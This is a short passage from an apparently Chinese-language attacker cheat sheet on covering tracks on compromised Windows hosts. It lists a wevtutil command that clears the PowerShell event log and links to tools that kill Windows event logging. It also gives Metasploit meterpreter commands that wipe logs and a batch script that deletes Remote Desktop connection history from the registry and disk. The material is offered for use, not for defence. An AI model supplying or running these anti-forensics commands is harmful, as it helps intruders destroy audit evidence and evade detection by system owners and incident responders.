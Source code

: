 ```
wevtutil cl "windows powershell"
```
### 破坏Windows日志记录功能 
利用工具 
* [Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m) 
* [Windwos-EventLog-Bypass](https://github.com/3gstudent/Windwos-EventLog-Bypass) 
* [Phant0m | Windows Event Log Killer]()

### msf 
```
run clearlogs 
```
```
clearev 
```
### 3389登陆记录清除 
```
@echo off
@reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
@del "%USERPROFILE%\My Documents\Default.rdp" /a
@exit
```

